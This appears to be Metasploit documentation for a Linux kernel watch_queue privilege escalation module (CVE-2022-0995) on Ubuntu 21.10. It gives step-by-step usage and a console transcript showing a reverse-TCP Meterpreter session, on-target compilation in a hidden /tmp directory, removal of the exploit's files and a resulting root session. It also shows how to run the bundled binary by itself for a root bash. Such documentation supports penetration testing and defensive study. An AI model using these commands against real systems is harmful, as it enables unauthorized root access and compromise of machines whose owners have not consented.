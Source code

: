 ## Vulnerable Application

This module exploits a vulnerability in the Linux Kernel's watch_queue event notification system. It relies on a heap
out-of-bounds write in kernel memory. The exploit fails occasionally, but it does not crash the target and can be run
multiple times until privilege escalation is achieved.

### Install

The vulnerability exists in linux kernel versions up to 5.17 rc8; this module only contains offsets for Ubuntu 21.10
kernel 5.13.0-37. More offsets may be added later.

Install Ubuntu 21.10
`apt-get install linux-image-5.13.0-37-generic`
Hold shift when you reboot and select the proper kernel version

## Verification Steps

1. Make an Ubuntu target.
1. Create a Meterpreter or shell payload and upload it to the Ubuntu target.
1. Set up a handler for the payload.
1. Launch the payload as a regular user on the Ubuntu target.
1. Do: `use exploit/linux/local/cve_2022_0995_watch_queue`
1. Do: `set payload <payload>`
1. Do: `set lhost <ip>`
1. Do: `set [r|l]port <port>`
1. Do: `run`
1. You should get a new shell as the `root` user.

## Options

### COMPILE

[Auto|True|False] This selects the binary to use. `True` will cause the module to upload the source
code and perform compilation on target, `False` will cause the module to upload a precompiled binary.
`Auto` will cause the module to try compiling the exploit on the target but will fall back to the
precompiled option if a compiler cannot be found.

### DEBUG_SOURCE
[True|False] This selects whether or not the module should use source code with debug prints when
uploading and compiling on disk. If set to `True` the module will use source code with prints
that assist with troubleshooting failed exploits. If set to `False` the module will use source code
without these debug statements/prints. Note if it is not possible to compile the code on the target,
the precompiled binary will be used which has no debug print statements.

### WritableDir
This indicates the location where you would like the payload and exploit binary stored, as well
as serving as a location to store the various files and directories created by the exploit itself.
The default value is `/tmp`

## Scenarios

### Ubuntu 21.10 x64 With Linux 5.13.0.37-Generic

```
msf6 payload(linux/x64/meterpreter/reverse_tcp) >
[*] Started reverse TCP handler on 10.5.135.101:4567
[*] Sending stage (3020772 bytes) to 10.5.134.157
[*] Meterpreter session 1 opened (10.5.135.101:4567 -> 10.5.134.157:34614 ) at 2022-04-12 21:04:39 -0500

msf6 payload(linux/x64/meterpreter/reverse_tcp) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer     : 10.5.134.157
OS           : Ubuntu 21.10 (Linux 5.13.0-37-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: msfuser
meterpreter > background
[*] Backgrounding session 1...
msf6 payload(linux/x64/meterpreter/reverse_tcp) > use exploit/linux/local/cve_2022_0995_watch_queue
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/cve_2022_0995_watch_queue) > show options

Module options (exploit/linux/local/cve_2022_0995_watch_queue):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   COMPILE       Auto             yes       Compile on target (Accepted: Auto, True, False)
   DEBUG_SOURCE  false            no        Use source code with debug prints to help troubleshoot
   SESSION                        yes       The session to run this module on


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.5.135.101     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Ubuntu Linux 5.13.0-37


msf6 exploit(linux/local/cve_2022_0995_watch_queue) > set session 1
session => 1
msf6 exploit(linux/local/cve_2022_0995_watch_queue) > set verbose true
verbose => true
msf6 exploit(linux/local/cve_2022_0995_watch_queue) > run

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_railgun_api
[*] Started reverse TCP handler on 10.5.135.101:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Version array: ["5.13.0", "37", "generic"]
[*] major_version: 5.13.0
[*] minor_version: 37
[+] The target appears to be vulnerable.
[*] Version array: ["5.13.0", "37", "generic"]
[*] major_version: 5.13.0
[*] minor_version: 37
[*] Creating directory /tmp/.nILfP259
[*] /tmp/.nILfP259 created
[+] gcc is installed
[*] Live compiling exploit on system...
[*] Writing '/tmp/.nILfP259/.7BZngDv' (250 bytes) ...
[*] Launching exploit...
[*] Running: /tmp/.nILfP259/.gJKqSJssjC /tmp/.nILfP259/.7BZngDv
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3020772 bytes) to 10.5.134.157
[+] Deleted /tmp/.nILfP259/.gJKqSJssjC
[+] Deleted /tmp/.nILfP259
[*] Meterpreter session 2 opened (10.5.135.101:4444 -> 10.5.134.157:50382 ) at 2022-04-12 21:05:25 -0500
[*]

meterpreter > sysinfo
Computer     : 10.5.134.157
OS           : Ubuntu 21.10 (Linux 5.13.0-37-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter >
```

## Notes

### Included Binaries
The binary used by this exploit `data/exploits/CVE-2022-0995/cve_2021_3493.x64.elf` can be used separately from
Metasploit. The binary takes a single argument which is the payload or executable you wish to launch as `root`.

The following snippet shows an example of how one might run this binary with the `/bin/bash` executable to get
a new Bash shell as the `root` user.

```
msfuser@msfuser-virtual-machine:~$ id
uid=1000(msfuser) gid=1000(msfuser) groups=1000(msfuser),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
msfuser@msfuser-virtual-machine:~$ ./cve_2021_3493.x64.elf /bin/bash
root@msfuser-virtual-machine:~$
```
